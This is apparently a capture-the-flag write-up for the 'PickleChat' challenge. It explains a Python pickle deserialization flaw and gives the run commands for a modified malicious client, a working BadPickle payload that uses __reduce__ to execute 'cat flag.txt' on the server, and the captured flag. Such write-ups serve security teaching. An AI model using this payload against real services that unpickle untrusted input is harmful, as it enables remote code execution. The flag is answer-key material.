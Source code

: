 # PickleChat

- There is a pickle deserialization vulnerability present in the application.
- The user can inject a custom class object and have it execute code when processed by the server.
- First the user must send a malicious message to the server and have the malicious pickle processed.
- After the message has been sent, the user will request to decrypt the message that was just uploaded.
- This will reveal the output of the pickle exploit.
- I have modified the client application to always send the malicious pickle, regardless of what the user passes in.
- The [exploit script](malicious_client.py) automates the process of exploiting the server and getting the flag.


## Process

```bash
# the below line will be the format during the first run
python3 malicious_client.py challenge.ctf.games <port>

# the below line will be the format for every subsequent
# execution of the exploit on the target, because the user
# will have already been registered with the server.
python3 malicious_client.py challenge.ctf.games <port> --skip-reg

```

## Code Snippets

Malicious Object:

```python3
class BadPickle:
    def __reduce__(self):
        ############################################################
        # These three lines take advantage of the ability to
        # dynamically import modules in Python. This allows the
        # attacker to import target modules required for their
        # exploit to work correctly. In this example the modules
        # PLATFORM and OS will be used in the exploit.
        ############################################################
        import platform
        import os
        import subprocess

        ############################################################
        # The if-else block below handles the OS type the insecure
        # deserialization will take place on. 
        #
        # This will capture the output of the "cat flag.txt"
        # command when processed.
        ############################################################
        if platform.system().lower() == "linux":
            cmd = (("cat", "flag.txt",),)
        else:
            cmd = (("type", "flag.txt"),)

        return (subprocess.check_output, cmd)
```

# Flag

1. Flag: `flag{b2d366b8dbd31517c2de39e45fd5db28}`

# References

1. [Subprocess Capture Output](https://stackoverflow.com/questions/34431673/how-to-get-the-output-from-os-system)
1. [Pickle Attack Example 1](https://blog.nelhage.com/2011/03/exploiting-pickle/)
1. [Pickle Attack Example 2](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

